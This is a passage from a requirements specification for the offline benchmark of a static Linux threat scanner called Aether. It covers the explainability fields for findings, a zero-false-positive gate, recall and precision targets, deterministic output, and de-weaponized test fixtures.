- **FR-004**: **Zero Payload Execution Invariant**: All benchmark tests MUST operate strictly statically on inert test fixtures in compliance with Constitutional Principle I & XI. No binary or script payload shall be executed.
- **FR-005**: **False-Positive Zero-Tolerance Gate on Benign Corpus**: Any unexpected `MALICIOUS` verdict produced on a benign package or documentation fixture MUST fail the benchmark quality gate.
- **FR-006**: **Explainable Finding Verification**: Every reported finding in the benchmark MUST satisfy the **8-Question Explainability Contract**:
  1. *WHAT*: Specific threat type and rule name.
  2. *WHERE*: Exact path, line number, or PID.
  3. *WHY*: Human-readable risk description.
  4. *EVIDENCE*: Cryptographic SHA-256, file mode, matched pattern snippet.
  5. *CONTEXT*: Package ownership, context profile (doc/test/build).
  6. *CORROBORATION*: Independent verifying signals (sockets, persistence).
  7. *CONFIDENCE*: Explicit confidence level (`HIGH`, `MEDIUM`, `LOW`) and rationale.
  8. *REMEDIATION*: Step-by-step containment instructions.
- **FR-007**: **Static Evasion Mutation Suite**: The benchmark MUST include a suite of static evasion mutations (quoting variations, variable slicing, obfuscated strings) to evaluate and document detector resilience.
- **FR-008**: **Deterministic Ordering & Path Normalization**: 10 consecutive multi-threaded benchmark scans on the identical corpus MUST produce 100% byte-for-byte identical finding lists sorted by `(Path, LineNumber, RuleName)`. All finding paths MUST be normalized relative to the benchmark corpus root before comparison and JSON serialization, ensuring host-specific paths do not impact determinism.
- **FR-009**: **Permanent Regression Gate**: All discovered false positives and resolved detection gaps MUST be committed as permanent fixtures in `testdata/fixtures/` and verified in CI.
- **FR-010**: **Hermetic Package Database Simulation**: Benchmark evaluation MUST utilize an in-memory/synthetic `PackageDB` representation populated per-case (from `is_package_owned` and `package_name` attributes) rather than querying host `/var/lib/dpkg` or host package files. Production `PackageDB` implementation must remain unchanged.

---

### Key Entities

- **`BenchmarkCorpusCase`**: An individual validation test scenario defining the target fixture, environmental configuration, and expected analytical verdict tuple.
- **`BenchmarkResult`**: The execution result of a single corpus case, recording actual verdict, actual severity, matched rules, normalized path, and pass/fail evaluation.
- **`BenchmarkMetrics`**: The aggregated statistical summary calculating TP, FP, TN, FN, Precision, Recall, FPR, F1-Score, category-level coverage, Suspicious Triage Accuracy, and Abstention Accuracy.
- **`EvasionMutation`**: A syntactically varied derivative of a malicious test fixture used to assess detector robustness against static evasion.
- **`ExplainabilityScorecard`**: A structured audit verifying that all 8 required human-readable explainability fields are populated and valid.

---

## 7. Success Criteria & Quality Gates *(mandatory)*

### Measurable Outcomes

- **SC-001**: **Zero False Positives on Benign Corpus**: Benchmark evaluation across all 11 Category A benign subcategories (including Python metadata, package unit tests, and pentest tools) produces exactly **$0$ false-positive `MALICIOUS` verdicts** ($\text{FPR} = 0.0\%$).
- **SC-002**: **$\ge 95\%$ Threat Recall on Baseline Malicious Corpus**: Benchmark evaluation across all 12 Category B malicious subcategories achieves a minimum **$95\%$ detection recall** against static threat fixtures.
- **SC-003**: **$\ge 90\%$ Precision on Ambiguous / Suspicious Corpus**: Findings raised on Category C ambiguous scenarios maintain $\ge 90\%$ classification accuracy into `SUSPICIOUS` or `SAFE` without unjustified escalation to `MALICIOUS`.
- **SC-004**: **100% Explainability Compliance**: $100\%$ of generated findings provide non-empty Title, Why, MITRE mapping, Remediation steps, Evidence record, and Confidence rationale.
- **SC-005**: **100% Deterministic Reproducibility**: 10 consecutive runs on the corpus produce $0$ finding order divergences, $0$ score variance, and $0$ host path leakage.
- **SC-006**: **Scientific Validation Statement**: The validation framework generates a complete, evidence-backed Markdown summary table suitable for documentation and release notes:
  > *"Aether was evaluated against X benign cases, Y malicious cases, Z edge cases, and N partial-visibility cases, achieving a measured Precision of A%, Recall of B%, False-Positive Rate of C%, and Coverage of D% across E threat classes."*

---

## 8. Assumptions & Scope Boundaries

- **Static Analysis Only**: Aether is a static threat hunter; dynamic kernel syscall tracing (eBPF/auditd runtime monitoring) and sandbox behavioral detonation are outside the scope of this static benchmark.
- **Corpus Independence**: Test fixtures represent realistic Linux artifacts but are intentionally de-weaponized (e.g. localhost/mock endpoints) to guarantee safety.
- **Air-Gapped Operation**: The benchmark runs 100% offline without connecting to external malware repositories or cloud threat feeds.
- **Engine Preservation**: The existing verdict architecture (`DetermineVerdict`, `EvidenceRecord`, `pkgdb`) is preserved and validated; this feature does not rewrite the core scanner.

---

## 9. Next Steps & Planning Readiness

This specification establishes the complete evaluation framework, detection catalog, and metric requirements. Upon approval, the implementation plan (`plan.md`) and task breakdown (`tasks.md`) will define the construction of `test/benchmark/`, synthetic fixture generation, metric reporting tools, and CI automation.
